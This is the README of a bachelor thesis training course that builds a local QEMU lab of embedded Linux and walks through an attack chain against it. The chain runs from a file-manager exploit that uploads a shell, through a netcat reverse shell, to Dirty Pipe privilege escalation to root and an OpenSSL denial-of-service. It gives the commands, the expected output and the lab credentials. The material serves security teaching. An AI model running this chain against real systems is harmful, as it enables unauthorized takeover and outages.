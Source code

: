 # Analysis of attack vectors for embedded Linux
Git Repository for my Bachelor Thesis "Analysis of attack vectors for embedded Linux"

The goal of this bachelor thesis was to create a training course that would give developers a brief insight into how quickly security vulnerabilities can sometimes be exploited. Unpatched systems can often be very easily taken over or crippled by exploits found on the Internet. To this end, the information gathered in this thesis is to be provided as training. The training is primarily intended for embedded system developers but can be applied to the entire Linux environment. 

The schedule and necessary data for the training can be found in my personal git repository at: https://github.com/FeFi7/attacking_embedded_linux 

Likewise, all patches and layers are provided that the Poky distribution can be extended or changed independently. This includes the layers used as well as the changes to the Poky version used with the status of the checkout 0447aace57d46c4de4d120b430384e99fc3a5e0c used in this thesis.

## Preparation for the training
To be able to carry out the training, a few things have to be prepared. The first step is to ensure that a Linux machine is available as the basic system. This can be any Linux distribution. The commands will be executed using an Ubuntu distribution. First all dependencies have to be installed. This includes qemu, qemu-system. These can be installed with the following commands:

>$ sudo apt-get install qemu 
>
>$ sudo apt-get install qemu-system

Furthermore, the Go ("Golang") programming language must be installed. We achieve this with the help of:
>$ sudo apt install golang-go

Alternatively, wget can be used to download the appropriate package and then install it. 
(wget https://golang.org/dl/go1.17.linux-amd64.tar.gz)

Install curl and jq.

>$ sudo apt-get install curl
>
>$ sudo apt-get install jq

:warning:Because the root file system of the Poky distribution created in this thesis exceeds the 100MB one need to install the GIT extension lfs (Large File Storage).:warning: 

This can be installed as follows:
>$ sudo apt-get install git-lfs 

or alternatively via https://git-lfs.github.com/. To do this, the following steps must be performed:
>$ curl -s https://packagecloud.io/install/repositories /github/git-lfs/script.deb.sh | sudo bash 


The extension must also be used for the repository clone:
>$ git lfs clone https://github.com/FeFi7/attacking_embedded_linux.git 


## Training materials
For the training let's imagine the following scenario: An embedded Linux software developer wants to develop a NAS system. The Tiny File Manger version from chapter 4.3 is installed on it and the system is to be taken over. We got the admin login data for the system through social engineering, or we know that the default configuration has not been changed. In any case, this login data is available to us. The goal is to combine the attacks in such a way that we create a reverse remote shell on the target and use the dirtypipe attack to gain root privileges. In the second step, the web server can be taken down by a DoS attack. This should show how a system can be weakened or taken over. Individual security vulnerabilities may not be bad, but the attack chain used with the combination of security vulnerabilities can lead to a complete takeover of the system. 
Follow all requirements for installation. After the Git repository has been successfully cloned, one need to change to this directory:
>$ cd attacking_embedded_linux/poky

In this directory the startup script is located, which boots the poky distribution. This can be started with the following command:
>$ sudo ./start.sh

Now one must wait until the QEMU has completely booted the distribution and the login prompt appears. As soon as the boot process has been completed, it can be tested with the help of a web browser whether the necessary pages are accessible, for this the following pages must be called:
Lighttpd: https://127.0.0.1:8443
Tiny File Manager Application: https://127.0.0.1:8443/tinyfilemanager.php 
Note: The self-signed certificate must be confirmed the first time it is accessed. 

The login credentials for the necessary applications are:

poky Login: hansolo Password: felix

Tiny File Manager: admin Password: admin@123

After ensuring that all requirements have been installed and the applications are working properly, the first attack can begin.
The first attack involves a combination of the CVE-2021-40964 to get a remote shell on the target system and the execution of an exploit for the CVE-2022-0847 to get root privileges on the system. For this, two shells should be opened on the host system. In the first shell we start netcat with the following command:  
>$ nc -nvlp 9001

In the second terminal we move to the exploit directory of the Tiny File Manager with the command:
>$ cd ../exploits/CVE-2021-40964-tinyfilemanager

This directory contains the exploit to log in to the Tiny File Manager application and upload the shell PHP script. This is executed as follows:
>$ ./exploit.sh https://127.0.0.1:8443/tinyfilemanager.php admin “admin@123”

In the other terminal window, the reverse shell now opens and we have access to the webroot directory of the lighttpd. This can be checked with the following command:
>$ ls -l

To execute the dirtypipe exploit and obtain root rights, the corresponding exploit must be uploaded via the web interface. To do this, the login process must be carried out via the web interface https://127.0.0.1:8443/tinyfilemanager.php with the login credentials 

Login: admin and Password: admin@123. 

Then one has to click on the upload button in the upper right corner and the upload mask will open. With a click in the white area a file explorer opens, where the exploit must be selected. This exploit has the following path: 
>attacking_embedded_linux/ exploits/ CVE-2022-0847-dirtypipe/exploit_bl4sty

Clicking on the Back button returns one to the overview of the files. It is recommended to check whether the exploit was successfully uploaded in the terminal by executing the remote shell. The following command must be executed for the exploit to be executable:
>$ chmod +x exploit_bl4sty

Before the exploit is executed, it should be checked under which user the shell is currently executed. To do this, the command "id" can be typed into the command line. The feedback appears:
>$ uid=33(www-data) gid=33(www-data) groups=33(www-data)

To gain root privileges, the exploit must be executed as follows:
>$ ./exploit_bl4sty /bin/su

Note: After executing the exploit, no new prompt appears only an empty new line.

It is checked whether the exploit was successful. To do this, the command "id" can be executed again in the command line. The feedback message appears:
>$ uid=0(root) gid=0(root) groups=33(www-data)

The system was successfully taken over.
The second attack requires launching the web browser and accessing the following URL: https://127.0.0.1:8443

A static HTML page with the content "Time to shoot the Empire" appears. In a terminal, one must change to the following directory where the exploit is located:
>$ cd attacking_embedded_linux/exploits/CVE-2021-3449-openssl

To execute the exploit, the following command must be run:
>$ go run . -host 127.0.0.1:8443

The feedback is provided:
>sending initial ClientHello
>connected
>sending malicious ClientHello
>malicious handshake failed, exploit might have worked: EOF

Furthermore, the message Error in libssl.so appears in the QEMU Terminal. Now it is necessary to switch back to the web browser and reload the page. The page is now no longer accessible and the lighttpd was taken down.
